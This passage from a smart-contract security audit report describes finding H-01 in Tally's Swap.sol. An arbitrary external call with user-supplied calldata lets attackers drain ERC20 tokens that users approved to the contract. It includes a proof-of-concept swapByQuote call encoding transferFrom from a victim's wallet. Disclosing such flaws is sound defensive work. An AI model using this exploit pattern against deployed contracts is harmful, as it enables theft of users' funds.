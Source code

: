 [](#high-risk-findings-2)High Risk Findings (2)
===============================================

[](#h-01-arbitrary-contract-call-allows-attackers-to-steal-erc20-from-users-wallets)[\[H-01\] Arbitrary contract call allows attackers to steal ERC20 from users’ wallets](https://github.com/code-423n4/2021-10-tally-findings/issues/37)
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by WatchPug_

[`Swap.sol L200-L212`](https://github.com/code-423n4/2021-10-tally/blob/c585c214edb58486e0564cb53d87e4831959c08b/contracts/swap/Swap.sol#L200-L212)

    function fillZrxQuote(
        IERC20 zrxBuyTokenAddress,
        address payable zrxTo,
        bytes calldata zrxData,
        uint256 ethAmount
    ) internal returns (uint256, uint256) {
        uint256 originalERC20Balance = 0;
        if(!signifiesETHOrZero(address(zrxBuyTokenAddress))) {
            originalERC20Balance = zrxBuyTokenAddress.balanceOf(address(this));
        }
        uint256 originalETHBalance = address(this).balance;
    
        (bool success,) = zrxTo.call{value: ethAmount}(zrxData);

A call to an arbitrary contract with custom calldata is made in `fillZrxQuote()`, which means the contract can be an ERC20 token, and the calldata can be `transferFrom` a previously approved user.

##### [](#impact)Impact

The wallet balances (for the amount up to the allowance limit) of the tokens that users approved to the contract can be stolen.

##### [](#poc)PoC

Given:

*   Alice has approved 1000 WETH to `Swap.sol`;

The attacker can:

    TallySwap.swapByQuote(
        address(WETH),
        0,
        address(WETH),
        0,
        address(0),
        address(WETH),
        abi.encodeWithSignature(
            "transferFrom(address,address,uint256)",
            address(Alice),
            address(this),
            1000 ether
        )
    )
